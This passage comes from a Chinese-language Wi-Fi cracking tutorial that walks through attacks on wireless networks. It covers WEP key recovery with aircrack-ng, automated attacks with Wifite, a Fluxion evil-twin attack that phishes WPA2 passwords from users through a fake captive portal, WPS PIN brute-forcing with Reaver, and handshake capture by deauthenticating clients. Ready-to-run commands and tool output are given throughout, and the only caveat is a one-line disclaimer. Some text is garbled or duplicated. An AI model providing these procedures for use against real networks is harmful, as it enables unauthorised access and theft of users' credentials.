(Images/image038.jpeg) 现在捕捉的数据包将存储在 `name_of_file.cap` 中。你必须等待直到获得足够的数据（至少 10000 个数据包）。注意：这一步不要等太。只需理解原理（包括后续章节），一旦确认你在操作，继续后续教程。在几分钟内使用 10k 个数据包。

### 5. 破解 wifi

如果一切顺利，你将坐在电脑前，最终获得了 10000 个数据包（先停止捕捉）。现在你可以使用 `aircrack-ng` 在新终端破解密码：

```bash
aircrack-ng name_of_file-cap
```

如果有多个，程序将询问破解哪个 wifi。它会完成工作。如果密码足够弱，它就会出现在你面前。如果不是，程序会提示你获取更多数据包。当有 15000 个数据包时，程序会重试。你会得到密钥，格式可能为：`xx:xx:xx:xx`。移除冒号，`xxxxxxxxxx` 就是无线网络的密码。

**不起作用？**

尝试：
```bash
ifconfig wlan0 up
ifconfig wlan0 down
airmon-ng check kill
rfkill unblock all
```
或者：
```bash
ifconfig wlan0mon down
iwconfig wlan0mon monitor
ifconfig wlan0mon up
```

**断开了网络 (wifi)?**

对于 Kali 2.0 或更高版本，将 `mon0` 替换为 `wlan0mon`：

```bash
airmon-ng stop mon0
```

这通常足够了。如果 `wlan0` 未启动（检查 `ifconfig` 或 `iwconfig`），则执行操作（如果你不知道做什么，尽管这样做吧）：

```bash
ifconfig wlan0 up
```

如果 wifi 仍然没有启动，尝试尝试：

```bash
service network-manager restart
```

## 额外：Wifite

- 按信号强度（dB）对目标进行排序；首先破解最近的访问点。
- 自动断开隐藏网络的客户端认证以显示 SSID。
- 许多过滤器用于指定精确攻击什么（wep/wpa/两者、特定信号强度以上、通道等）。
- 可自定义设置（超时、数据包/秒等）。
- “匿名”功能；在攻击前将 MAC 改为随机地址，攻击完成后还原。
- 所有捕捉的 WPA 握手都会备份到 `wifite.py` 的当前目录。
- 智能 WPA 取消；在所有客户端和广播取消认证之间循环。
- 使用 `Ctrl+C` 停止任何攻击，可以选择继续、移动到下一个目标、跳到破解或退出。
- 退出时显示会摘要；显示任何破解的密钥。
- 所有密码保存到 `cracked.txt`。
- 内置更新器：`./wifite.py -upgrade`。

我觉得在这里提到，它不仅以简单的方法破解 wifi，还以最好的方式破解。例如，当你使用 Wifite 破解 WEP wifi 时，它使用伪造 `auth` 并使用 ARP 方法加速数据包。

## 破解 WEP 网络

如果你关注我之前关于破解 Wifi (WEP) 的文章，你就知道在开始破解之前有大量的功课要做写。但这里不用。使用 Wifite，它就像一个命令一样简单直接：

```bash
wifite -wep
```

你甚至可能直接使用命令

```bash
wifite
```


如果你在此阶段看到任何错误，请移动到页面底部查看故障排除提示。`-wep` 参数会让 `wifite` 明确知道你只想破解使用 WEP 加密的 wifi 网络。它会为你扫描网络，当你认为它已经扫描了足够时，可以输入 `ctrl+c` 告诉它停止。然后它会询问你想要破解哪个 wifi。在我的情况下，我没有指定 `-wep`，所以它显示了范围内的所有 wifi：



你也可以选择全选（all），然后去睡个午觉（或者可能去睡个大觉）。当你醒来时，你可能正在破解面前所有的 wifi 密码。我输入了一个，它在 5 分钟内就收集了 7000 个 IV（数据包）。基本上，你可以预计大约在 10 分钟就能破解 wifi。注意看它是如何进行伪造认证和 ARP 重放的。



这里是 Wifite 运行的更多截图，来自它们的官方网站（`./wifite.py` 并不是你需要担心的东西。你可以继续使用简单的 `wifite`。此外，指定通道是可选的，所以即使是 `-c 6` 也是没。注意它没有使用 ARP 重放，而是使用了 `-frag` 进行碎片攻击）


破解 WPS 并不快（花费了几个小时），但它很容易，不需要除了等待之外什么都不用做。

Wifite 让你能够通过命名来使用任何你想使用的方法。正如你在上面的截图中所示，通过输入 `-frag` 即可执行碎片攻击。同样，还可以进行许多其他攻击。一个好主意是执行以下命令：

```
wifite -help
```

这将告诉你常用的用法命令，这些将非常有用。以下是针对不同攻击的 WEP 命令列表：

- `-wep`: 仅针对 WEP 网络 [关闭]
- `-pps <num>`: 设置每秒注入的数据包数量 [600]
- `-wept <sec>`: 每次攻击的等待秒数，0 表示无限 [600]
- `-chopchop`: 使用 chopchop 攻击 [开启]
- `-arpreplay`: 使用 arpreplay 攻击 [开启]
- `-fragment`: 使用碎片攻击 [开启]
- `-caffelatte`: 使用 caffe-latte 攻击 [开启]
- `-p0841`: 使用 -p0841 攻击 [开启]
- `-hirte`: 使用 hirte (cfrag) 攻击 [开启]
- `-nofakeauth`: 如果伪造认证失败则停止攻击 [关闭]
- `-wepca <n>`: iv 数量超过 n 时开始破解 [10000]



- `-wepsave`: 将 `.cap` 文件副本保存到此目录 [关闭]

如你所见，这与帮助截图中的是一样的。尝试各种攻击并看看你能做什么。在没有 WPS 的情况下破解 WPA 并不那么容易。

 Wifite 意外退出，显示：“扫描无线设备。未找到无线接口。你需要插入 wifi 设备或安装驱动程序。正在退出。”


你可能是在虚拟机中使用 Kali。虚拟机不支持内置无线卡。要么购买外部无线卡，要么使用带有 Windows 的实时启动/侧启动。通常情况下，虚拟机以外的都可以。

## Fluxion

Wifite 虽然很酷，但对无懈可的 WPA-2 网络作用不大。通过结合邪恶孪生（evil-twin）和中间人攻击之类的手段，fluxion 试图欺骗客户端向你提供受 WPA-2 保护访问点的密钥。

# 5

## 无需字典/暴力破解破解 WPA/WPA2：Fluxion


Fluxion 基于另一个名为 `linset` 的脚本。我曾想过在渗透测试中使用类似中间人攻击/邪恶孪生攻击的方法获取 WPA 密码，而不是采用暴力破解/字典路线。然而，一旦我看到关于这个酷炫脚本的帖子，我决定尝试一下。因此在本章中，我将向你展示如何使用 Fluxion，以及你如何这样做。

**免责声明**：仅在你拥的网络上使用此工具。不要做任何非法行为。

### 目录
- 检查工具是否已预安装，如果没有，通过 github 获取。
- 运行脚本，根据需要安装依赖项。
- 如何使用 Fluxion 的快速概述。
- 带有文字说明和截图的详细步骤和演示
- 视频演示（与文字演示不完全相同，但几乎一样）
- 故障排除章节

 **47**

我做的第一件事是确保 Kali 已经没有这个工具。也许如果你在本文编写很久之后读到这一章，那么 Kali 可能已经预装了该工具。无论如何，尝试一下这个：

`fluxion`

你可能是在虚拟机中使用 Kali。虚拟机不支持内置无线卡。要么购买外部无线卡，要么使用带有 Windows 的实时启动/侧启动。通常情况下，虚拟机以外的都可以。

## 获取脚本

获取脚本只需要克隆仓库。如果你在此步骤遇到任何问题，请使用 git 命令：

```
git clone https://github.com/deltax/fluxion
```

## 运行脚本

进入目录：

```bash
cd fluxion
```

现在，运行脚本：

```
sudo ./fluxion
```

## 依赖项

如果有未满足的依赖项，请运行安装脚本。

```bash
sudo ./Installer.sh
```

我有 4 个依赖项，安装过程对我来说是一个糟糕的体验。我建议在安装完成后，将 `/etc/apt/sources.list` 恢复到原始状态。

 **48**


因此，在这个示例运行中，我将尝试通过让手机连接到虚假 AP 来获取我的无线网络密码，然后在手机上输入密码，最后查看我 Kali 机器（笔记本电脑）上的 `Fluxion` 实例是否获取了密码。此外，对于握手，我将对同一手机进行取消身份认证（de-authenticate）。你可能可以在完全不知道 WPA 如何工作、什么是握手、实际上发生了什么等情况下跟上这个指南，但我建议你阅读一下这些内容。

选择语言后，会出现这一步。

注意我没有使用任何外部无线网卡，而是使用了笔记本电脑的内置网卡。

然而，某些内置网可能会导致问题，因此最好使用外部网卡（如果你在虚拟机上，则必须使用外部网卡）。扫描过程开始，使用了 `airodump-ng`。



选择一个目标。我选的是 21 号网络，即我的手机连接的那个：


你选择一种攻击方式。我将选择 `Hostapd`（第一个）攻击。

如果你已经捕获了 4 路握手，那么你可以指定该握手的位置，脚本将使用它。否则，它将在下一步中为你捕获一个握手。

如果你之前没有捕获握手，你就可以选择使用哪种工具来完成它。我选择 `aircrack-ng`。



一旦你捕获了握手（查看顶部的 WPA Handshake: [MAC Address]，如果那里有，就说明你拥有了握手），然后输入 1 并回车来检查握手。如果一切正常，你将进入下一步。



使用 Web 接口方法。我没有尝试暴力破解，但我猜那只是大多数工具都会使用的普通暴力破解攻击（因此对我们没用，因为我们不是用这个脚本来干这个的）。它提供了多种登录页面，你可以使用它们来获取（钓鱼）WPA 网络的密码。我选择了第一个选项：

**55**

做出决定后，你将看到多个窗口。左侧两个窗口处理 DHCP 和 DNS 请求，而右侧两个是状态报告窗口和取消认证窗口（用于将用户从实际 AP 驱逐并引导他们来到虚假 AP）。


在我的手机上，我看到两个同名的网络。注意虽然原始网络受 WPA-2 保护，但我们创建的虚假 AP 是一个开放网络（这是一个巨大的漏洞，会导致大多数人犯下连接它的错误）。总之，我连接了虚假 AP，DNS 和 DHCP 窗口（左侧）对此相应的反应：


连接网络后，我收到一个通知，说我登录无线网络。点击它后，我这个页面。对于某些人，你需要打开浏览器并尝试打开一个网站（例如 `facebook.com`）才能显示这个页面。输入密码并按下提交后，脚本会对我们之前捕获的握手运行密码验证，以确认其确实正确。注意，在这种方法中握手是奢侈品而非必需。它只是确保我们可以验证虚假 AP 客户端提交的密码是否正确。如果我们没有握手，就会失去这种能力，但假设客户端会输入正确的密码，我们仍然可以让攻击生效。

`Aircrack-ng` 再次对握手尝试密码，如所料，成功了。

我们在几分钟内成功获取了受 WPA-2 保护的网络密码。

# 6

## 破解 WPA/WPA2 WPS


当已知 WEP 网络可以被任何带有笔记本电脑和网络连接的孩子攻破（使用像我们博客上那种简单的教程）时，安全人员成功制定了更健壮的安全措施 WPA/WPA2。

现在，在大多数情况下，破解 WPA/WPA2 是一项非常枯燥的工作。字典攻击可能需要几天，仍然可能无法成功。此外，良好的字典是巨大的。

包含所有字母（大小写）和数字的穷尽暴力破解可能需要多年，取决于密码长度。彩虹表（Rainbow tables）已知通过提前完成部分猜测工作来加速，但从网上下载的输出彩虹表体积大得惊人（有时可以是数百 GB）。最后，安全人员终于可以松口气气了。但现在远未结束，因为新的 WPA 技术对用户来说完全并不容易配置。考虑到这一点，引入了一项新的安全措施来补充 WPA，即 Wi-Fi 保护设置（WPS）。现在它基本上是为了让 WPA 变得更难破解，并且更易配置（点击路由器上的按钮，设备即可连接）。然而，它有一个众周知的漏洞，`reaver` 可以利用它。这仍然需要几个小时才能出结果：

**60**

维基百科关于 WPS：由 Wi-Fi Alliance 创建并于 2006 年引入，该协议的目标是让了解安全知识的用户添加设备。在标准建立之前，开发了多种竞争方案来解决相同的需求。2011 年 12 月发现了一个重大安全漏洞，影响了无线路由器。

### WPS 的原理

现在虽然大部分内容与 WPA 相同，但引入了使用 PIN 码进行验证的新概念。基本上，客户端将 8 位 PIN 码发送到访问点，访问点验证后允许客户端连接。现在一个 PIN 码有 8 位且仅包含数字，因此是可能的破解目标。在对 WPA 密码的正常暴力破解中，你必须考虑可能存在数字、字母以及符号（且超过 8 个字母）。这让任务困难了数十亿。然而，我们可以每秒尝试数千次密钥，这使其稍微简单了一点。现在 WPS 中，由于我们需要等待 AP 的响应，存在延迟，我们每秒可能只能尝试几次密钥（我在 PC 上看到的最高记录是每 2 秒一次密钥）。基本上，8 位数字和每位 10 种可能性（0-9），假设每秒尝试一次密钥，需要 `10⁸`（解释 ^ 为幂）秒。那将是多年。所以，这带我们到了哪里？答案是，这项技术存在可以被利用的漏洞：

- 第 8 位是前 7 位的校验和。`10⁷` 种可能性，即十分之一的时间。两个月，仍然还有很路要走。
- PIN 码验证分为两个部分，因此我们可以独立地验证前 4 位和后 4 位。两次都猜对 4 位比一次性猜对 8 位要容易得多。基本上，前半部分需要 `10⁴` 次猜测，后半部分需要 `10³` 次。现在的猜测次数为 `10⁴ +10³`（而不是 `10⁴ *10 ³`）。现在我们需要 11,000 次猜测：




这大约需要 3 小时。这就是所有的组合，而且正确的 PIN 码可能不是最后一种组合，所以你可以预期更早得到结果。然而，假设是暴力破解（`bruteforcing`）是按每秒一个密钥进行的。我的个人最佳记录是每 2 秒一个密钥，而你的速度可能会低到每 10 秒一个密钥。

## 如何执行攻击

现在在历史上的某个时期执行这种攻击可能很困难，但现在，这轻而易举。如果你具备了所有先决条件，那么破解网络就像是：

```
reaver -i <interface-name> -b <BSSID of target>
```

如果你已经熟悉了如何破解 WEP，那么只需进入你的 Kali Linux 终端并输入上面的命令（替换需要替换的内容）。让你的机器保持原样，10 分钟后回来，检查一下进度（必须是 1% 左右），然后去睡个午觉。不过，如果你是新手，请跟上。

## Kali Linux


首先，你需要在机器上安装并运行 Kali linux（或 backtrack）。任何其他 Linux 发行版可能都行，但你需要自己安装 Reaver。现在如果你没有安装 Kali Linux，你可能想去这个页面，它将帮助你开始使用 Kali Linux 进行破解。（Reaver 有一个已知问题：有时它在虚拟机上不起作用，你可能需要使用 Kali Linux 的 live CD 或 live USB 进行现场启动。）

## 信息收集

现在你需要获取关于目标网络的以下信息：

- 它是否开启了 WPS。如果没有，那么攻击将无效。
- 网络的 BSSID。

现在要检查网络是否开启了 WPS，你可以使用 `wash` 或者直接使用老牌 `airodump-ng`。`wash` 专门用于检查网络是否开启了 WPS，因此更好用得多。以下是步骤：

- 将你的无线接口设置为监听模式。

```
airmon-ng start wlan0
```

- 使用 `wash`（简单，但有时即使在网络开启了 WPS 的情况下也无法到）。如果那里显示了任何网络，说明它开启了 WPS：

```
wash -i mon0
```



这是一个我还没有弄清楚的错误。如果你看到它，就得做做作业了，或者转向到 `airodump` 方法。更新：`wash -i mon0 --ignore-fcs` 可能会解决这个问题。

- 使用 `airodump-ng`。它会显示你周围所有的网络。它会告诉你其中哪些使用了 WPA。你必须假设它们开启了 WPS，然后进入下一步：

```
airodump-ng mon0
```


网络的 **BSSID**：现在无论你使用什么工具，在得到的结果中都应该有一列 BSSID。复制你想要破解的网络的 BSSID。这就是你需要的全部信息。

所以到这里你一定已经了类似 `XX:XX:XX:XX:XX:XX` 的内容，这是你目标网络的 BSSID。保留它，因为你会需要它。

## Reaver

现在最后我们将使用 Reaver 来获取 WPA/WPA2 网络的密码。Reaver 让破解变得非常简单，你只需要输入：

```
reaver -i mon0 -b XX:XX:XX:XX:XX:XX
```

解释 = `i`（使用的接口）。记住使用 `airmon-ng` start `wlan0` 创建了监听接口 `mon0`。这就是我们使用的。`-b` 指定了我们之前找到的网络 BSSID。

这就是 Reaver 所需的所有信息。然而，Reaver 带有许多高级选项，我推荐其中一些。最重要的是，你应该使用 `-vv` 选项，它会增加工具的详细程度。基本上，它会将正在发生的一切都写到终端上。这有助于你看到发生了什么，跟踪进度，并在需要时进行故障排除。所以最终的命令应该是：

```
reaver -i mon0 -b XX:XX:XX:XX:XX:XX -vv
```

几小时后，你将看到类似这样的内容。在这种情况下，PIN 码特意设置为 12345670，因此在 3 秒内就被破解了。

`WPA PSK : X`

`X` 是无线网络的密码。

这是一个额外的部分，可能证明有用。

 **WPA PSK : X**

`X` 是无线网络的密码。

这里有一个额外的部分，可能证明有用。遇到的已知问题……故障排除：

1. 如上面的截图所示，你看到第一行写着“Switching wlan0 to channel 6”（你的可能是 `mon0` 而不是 `wlan0`）。有时它会一直切换接口。
2. 有时它永远获取不到信标帧（beacon frame），卡在等待信标帧的阶段。
3. 有时它永远与目标 AP 关联。
4. 有时响应太慢，或者永远不来，并显示 `(0x02)` 之类的错误。

大多数情况下，此类错误表明：

1. 无线卡有问题。
2. AP 非常挑剔，不让你关联。
3. AP 没有使用 WPS。
4. 你离 AP 太远。
5. 路由器实施了速率限制。

可能的解决方法：

1. 有时，杀死某些进程会有帮助（见下方）。
2. 靠近 AP。
3. 使用 `aireplay-ng` 进行 `fakeauth`（加速 WEP 破解），并在正常的 reaver 代码末尾加上 `-A`（告诉 reaver 不要理会已关联）。
4. 如果你在 Vmware 中使用 Kali，尝试从 USB 启动。我不知道为什么，但有时内置适配器会有奇效，且无法在虚拟机内部使用。我的情况下，从 USB 启动并使用内置适配器增加了信号强度并加快了暴力破解过程。更新：这是 Reaver 的已知问题。对于某些人来说，Reaver 不起作用的原因是使用的 Libpcap 版本与使用的 Kali 版本不兼容。许多人在评论区分享了他们的经验。如果可以请提供帮助，如果需要请寻求帮助。我不能总是回复，但通常会有人。


现在第一步在概念上是简单的。你需要的是：你（攻击者）、一个将连接到无线网络的客户端，以及一个无线接入点。发生的是，当客户端和接入点进行通信以验证客户端时，它们会进行一个我们可以捕捉的 `4 way handshake`（四次握手）。这个握手包含了密码的哈希值。现在，没有直接从哈希中提取密码的方法，因此哈希是一种稳健的保护方法。但我们可以做一件事：我们可以获取所有可能的密码，并将它们转换为哈希。然后我们将创建的哈希与握手中的哈希值进行匹配。如果哈希值匹配，我们就知道是哪个明文密码产生了该哈希，从而我们知道了密码。如果你觉得这个过程听起来非常耗时，那是因为它确实如此。WPA 破解（以及一般的哈希破解）是一个非常消耗资源且耗时的过程。现在有多种不同的破解 WPA 的方法。但由于破解 WPA 成功率不高，我们应该首先查看捕获握手的过程。我们还将看到在此过程中可能会遇到的问题。此外，在此之前，请查看维基百科上关于 `4-way handshake` 到底是什么的一些可选理论。

## 四次握手

认证过程留下了两个考虑因素：接入点（`AP`）仍然需要向客户端站（`STA`）验证身份，并且需要导出加密流量的密钥。之前的 EAP 交换或 WPA2-PSK 提供了共享密钥 `PMK`（成对主密钥）。然而，该密钥旨在持续整个会话，并且尽可能少暴露。因此，使用四次握手建立另一个名为 `PTK`（成对临时密钥）的密钥。`PTK` 通过拼接以下属性生成：`PMK`、`AP` 随机数 (`ANonce`）、`STA` 随机数 (`SNonce`）、`AP` MAC 地址以及 `STA` MAC 地址。然后将产物通过 `PBKDF2-SHA1` 作为加密哈希函数进行处理。

握手还会产生 `GTK`（组临时密钥），用于解密组播和广播流量。握手期间交换的实际消息如图所示并在下文中解释：


1. `AP` 向 `STA` 发送一个随机值（`ANonce`）。现在客户端拥有了构建 `PTK` 的所有属性。
2. `STA` 向 `AP` 发送自己的随机值（`SNonce`），并连带一个包含认证的 `MIC`，这实际上是一个消息认证和完整性代码：（`MAIC`）。
3. `AP` 将 `GTK` 和序列号与另一个 `MIC` 一起发送。该序列号将用于下一个组播或广播帧，以便接收的 `STA` 可以执行基本的重放检测。
4. `STA` 向 `AP` 发送确认。

上述所有消息都作为 `EAPOL-Key` 帧发送。

一旦获得 `PTK`，它就会被分为五个独立的密钥：

`PTK`（成对临时密钥 – 64 字节）

1. 16 字节的 `EAPOL-Key 确认密钥` (`KCK`) – 用于在 WPA EAPOL Key 消息上计算 `MIC`。
2. 16 字节的 `EAPOL-Key 加密密钥` (`KEK`) - `AP` 使用此密钥加密发送到客户端的额外数据（在“Key Data' 字段中，例如 RSN IE 或 `GTK`）。
3. 16 字节的 `临时密钥` (`TK`) – 用于加密/解密单播数据包。
4. 8 字节的 `Michael MIC 认证器 Tx Key` – 用于计算由 `AP` 发送的单播数据包的 `MIC`。
5. 8 字节的 `Michael MIC 认证器 Rx Key` – 用于计算站发送的单播数据包的 `MIC`。

握手中提供的 `Michael MIC 认证器 Tx/Rx Keys` 仅在网络使用 `TKIP` 加密数据时才使用。

顺便说一下，如果你没有太懂其中的内容，不要担心。人们不在维基百科上搜索破解教程是有原因的（一半的内容太深了）。

## 捕获握手

现在有几种捕获握手的方法（此处列出了 2 种）。我们将逐查看。

1. `Wifite`（简单且自动）
2. `Airodump-ng`（简单但非自动，你必须手动执行 `wifite` 自动完成的操作）

### Wifite

#### 方法论

我们先从简单的开始。现在你需要意识到，为了捕获握手，必须有握手正在进行。现在有两种选择：你可以坐在那里等一个新客户端出现并连接到 WPA 网络，或者你可以强制已连接的客户端断开连接，当它们重新连接时，你捕获它们的握手。你的网卡擅长接收数据包，但不擅长创建数据包。现在如果你的客户端离你很远，你的 `deauth` 请求（即：请离开此连接）将无法到达它们，你将一直奇怪为什么捕不到任何握手（在 ARP 注入和其他类型的攻击中也会遇到类似的问题）。所以，想法是尽可能靠近接入点（路由器）和客户端。`wifite` 和 `airodump-ng` 方法的方法是相同的，但 `wifite` 为你处理了所有杂事，而在 `airodump-ng` 的情况下，你将需要你的兄弟（`airplay-ng`）来帮忙。

#### 使用 Wifite 获取握手

现在我的配置非常简单。我有一个名为 'me' 的受 wpa 保护的网络。

```
root@kali:~ wifite
```


```
  NUM ESSID             CH ENCR  POWER  WPS?  CLIENT
  --- -------------------  -  ---  ----  ---  -----
     1  *     1 WPA   99db    no  client
     2  me  1 WPA2  47db   wps   client
     3  *   11  WEP   22db    no  clients
     4  *   11  WEP   20db    no
```

[+] 选择目标编号（1-4）并用逗号分隔，或输入 'all'：2
[+] 已选择 1 个目标。
[0:00:00] 正在 me 初始化 WPS PIN 攻击 (02:73:8D:37:A7:ED)
^C0:00:07] WPS 攻击，0/0 成功/ttl，
(^C) WPS 暴力破解中断
[0:08:20] 正在对 "me" 开始 wpa 握手捕获
[0:07:51] 正在等待握手...
(^C) WPA 握手捕获中断
[+] 已完成 2 次攻击：
 [+] 0/2 WPA 攻击成功
[+] 正在退出

现在 `deauth`（取消认证）攻击不起作用。这次我增加了 `deauth` 的频率。

```bash
root@kali:~# wifite -wpadt 1
```

然而，很快我我意识到，问题在于我正在使用内置网卡（Kali Live USB）。它不支持数据包注入，因此 `deauth` 不起作用。是时候让我的外置网卡上场了。

```bash
root@kali:~# wifite
```

```
  .'             `;,
  .;' ,;'           `;,  `;,   WiFite v2 (r85)
.;' ,;'  ,;'      `;,  `;,  `;,
::  ::  :  ( )  :  ::  ::  自动化无线审计工具
':.  '::.  '::. /_\ ,:'  ,:'  ,:'
':.  '::.    /___\    ,:'  ,:'  为 Linux 设计
 '::.      /_____\      :'
          /       \     
```

[+] 正在扫描无线设备...
[+] 可用无线设备：
 1. wlan1 Ralink RT2870/3070 rt2800usb - [phy1]
2. wlan0 Atheros ath9k - [phy0]
[+] 选择要放入监听模式的设备编号 (1-2)：

看，我们现在可以使用 USB 卡了。这将为我们解决问题。
现在看 `wifite` 的输出：

```
  NUM ESSID             CH ENCR  POWER  WPS?  CLIENT
  --- -------------------  -  ---  ----  ---  -----
     1  me             1 WPA2  44db   wps   client
     2  *               11 WEP   16db    no  client
     3  *              11 WEP   16db    no  client
```

[+] 选择目标编号（1-3）并用逗号分隔，或输入 'all'：现在我正在攻击目标。这次，我终于捕获到了握手。
[+] 已选择 1 个目标。
[0:00:00] 正在 me 初始化 WPS PIN 攻击 (02:73:8D:37:A7:ED)
^C0:00:01] WPS 攻击，0/0 成功/ttl，
(^C) WPS 暴力破解中断
[0:08:20] 正在对 "me" 开始 wpa 握手捕获
[0:07:23] 正在等待握手...
[0:00:57] 握手捕获成功！已保存为 `hs/me_02-73-8D-**-cap`
[+] 已完成 2 次攻击：
[+] 1/2 WPA 攻击成功
(02:73:8D:37:A7:ED) 已捕获并保存为 `hs/me_02-73-8D-**-cap`
[+] 正在对 1 个握手启动 WPA 破解器
[!] 未找到 WPA 字典！使用 `-dict <file>`
[+] 正在禁用 mon0 监听模式... 完成
[+] 正在退出

如你所见，我花了 57 秒捕获到握手（发送了 5 个 `deauth` 请求，默认每 10 秒发送一个）。没有字典的错误不应该困扰你。我们将仅使用 `wifite` 来捕获握手。现在捕获的握手保存为 `.cap` 文件，可以使用 `aircrack`、`pyrit`、`hashcat`（转换 `.hccap` 后）等工具使用字典或暴力破解进行破解。让我们看看如何用同样的操作。这次我不会向你展示可能会遇到的问题。这将是一个完美的体验，所有问题在 `wifite` 案例中已经过了。

## 使用 Airodump-ng 捕获握手

### 1. 查找无线适配器的名称
